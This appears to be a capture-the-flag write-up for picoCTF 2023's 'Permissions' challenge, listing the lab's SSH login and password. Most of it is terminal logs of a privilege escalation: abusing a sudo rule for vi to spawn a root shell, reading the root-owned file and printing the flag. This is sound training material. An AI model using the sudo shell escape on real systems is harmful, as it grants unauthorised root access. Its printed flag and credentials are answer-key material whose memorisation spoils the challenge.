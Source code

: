### Permissions

#Medium #General-skills  #picoCTF2023 #vim

Author: Geoffrey Njogu

#### Description

Can you read files in the root file?The system admin has provisioned an account for you on the main server:`ssh -p 61974 picoplayer@saturn.picoctf.net`Password: `e3pn6lmvHt`Can you login and read the root file?

##### Solution:

this website [GTFOBINS](https://gtfobins.github.io/) will help you

```css
picoplayer@challenge:/var$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:/var$ vim -c ':!/bin/zsh'

/bin/bash: /bin/zsh: No such file or directory

shell returned 127

Press ENTER or type command to continue
picoplayer@challenge:/var$ vi -c ':!/bin/sh' /dev/null

$ exit

Press ENTER or type command to continue
picoplayer@challenge:/var$ sudo vi -c ':!/bin/sh' /dev/null

# ls
backups  cache	lib  local  lock  log  mail  opt  run  spool  tmp
# cd /
# ls
bin  boot  challenge  dev  etc	home  lib  lib32  lib64  libx32  media	mnt  opt  proc	root  run  sbin  srv  sys  tmp	usr  var
# cd root
# shell
/bin/sh: 5: shell: not found
# bash
root@challenge:~# ls
root@challenge:~# cd /root
root@challenge:~# ls
root@challenge:~# cd /
root@challenge:/# ls
bin  boot  challenge  dev  etc  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
root@challenge:/# cd challenge/
root@challenge:/challenge# ls
metadata.json
root@challenge:/challenge# cat metadata.json
{"flag": "picoCTF{uS1ng_v1m_3dit0r_f6ad392b}", "username": "picoplayer", "password": "e3pn6lmvHt"}root@challenge:/challenge# 


```

2nd method
use `:!/bin/bash` in vi

```css
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:~$ sudo vi test
~                                                                               
~                                                                               
~                                                                               
:!/bin/bash
root@challenge:/home/picoplayer# 


root@challenge:/home/picoplayer# ls
root@challenge:/home/picoplayer# pwd
/home/picoplayer
root@challenge:/home/picoplayer# cd /
root@challenge:/# ls
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
root@challenge:/# cd challenge/
root@challenge:/challenge# ls
metadata.json
root@challenge:/challenge# cat metadata.json 
{"flag": "picoCTF{uS1ng_v1m_3dit0r_f6ad392b}", "username": "picoplayer", "password": "e3pn6lmvHt"}root@challenge:/challenge# 

```